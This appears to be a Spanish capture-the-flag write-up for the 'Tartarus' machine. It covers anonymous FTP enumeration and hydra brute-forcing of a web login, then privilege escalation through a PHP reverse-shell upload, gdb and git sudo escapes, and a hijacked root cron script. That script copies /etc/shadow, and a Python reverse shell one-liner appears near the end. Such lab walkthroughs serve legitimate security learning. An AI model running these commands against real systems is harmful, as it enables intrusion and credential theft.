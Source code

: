 # Tartarus
Máquina sencilla pero con privesc interesante
## Initial Scan
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.95.54
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 98:6c:7f:49:db:54:cb:36:6d:d5:ff:75:42:4c:a7:e0 (RSA)
|   256 0c:7b:1a:9c:ed:4b:29:f5:3e:be:1c:9a:e4:4c:07:2c (ECDSA)
|_  256 50:09:9f:c0:67:3e:89:93:b0:c9:85:f1:93:89:50:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

## Enum
### FTP
El login anonymous esta permitido, conectemonos y veamos 
```
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ...
-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
```
Accedemos la directorio ... y vemos un file llamado yougotgoodeyes.txt

Lo leemos y su contenido es:

```
/sUp3r-s3cr3t
```
Parece un directorio de la pagina web lo tendremos en cuenta a la hora de enumerar el HTTP

### HTTP

Mirando en robots.txt encontramos lo siguiente
```
User-Agent: *
Disallow : /admin-dir

I told d4rckh we should hide our things deep.
```
Un directorio y lo que podria ser un user ''d4rckh''

Si accedemos al directorio en cuestion tenemos una lista de usuarios y una de contraseñas, podemos usarlas para el SSH tal vez

Parece que en el directorio que encontramos antes gracias al FTP tenemos un login, sería otro buen sitio para probar con hydra, parece que al logearnos nos dice si la contraseña o el usuario son incorrectas, que amable sujeto el desarrollador

Pillamos los users validos
```
hydra -L user.txt -P credentials.txt 10.10.193.188 http-post-form '/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect username!'
```
Enox es un user valido, busquemos ahora su pass

```
 hydra -l enox -P credentials.txt 10.10.193.188 http-post-form '/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect password!'
 > [80][http-post-form] host: 10.10.193.188   login: enox   password: P@ssword1234
```
Vamo a logearno

### Exploit

Con las credenciales validas para enox nos logeamos y tenemos una opción para subir archivos, parece que no filtra extensiones pero no nos dice donde se almacena vamos a tirar de gobuster
```
/images (Status: 301)
```
Subimos la php reverse shell de Pentest Monkey y estamos dentro

## Privesc

```
User www-data may run the following commands on ubuntu-xenial:
    (thirtytwo) NOPASSWD: /var/www/gdb
```
Saltemos a thirtytwo mediante el siguiente comando
```
sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
```
Una vez dentro de thirtytwo vemos lo siguiente
```
User thirtytwo may run the following commands on ubuntu-xenial:
    (d4rckh) NOPASSWD: /usr/bin/git
```
Saltemos a d4rchkh
```
sudo -u d4rckh /usr/bin/git branch --help config
!/bin/sh
```
Ya somos d4rchkh veamos que tenemos a nuestra dispocision

```
-rwxrwxrwx 1 root   root    129 Jul  5 21:45 cleanup.py
```
Ese archivo es sospechoso
```
*/2 *   * * *   root    python /home/d4rckh/cleanup.py
```
Y vemos que se ejecuta en el crontab, vamos a sustituir el script por este
``` 
# -*- coding: utf-8 -*-
#!/usr/bin/env python
import os
import sys
try:
	os.system('cp /etc/shadow /home/d4rckh/shadow ; chmod 777 /home/d4rckh/shadow')
except:
  pass
```
Vemos que funciona, podemos o bien tratar de invocar una reverse shell o crackear el shadow.
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Mediante la reverse shell accedemos facilmente como root y ya tenemos la máquina

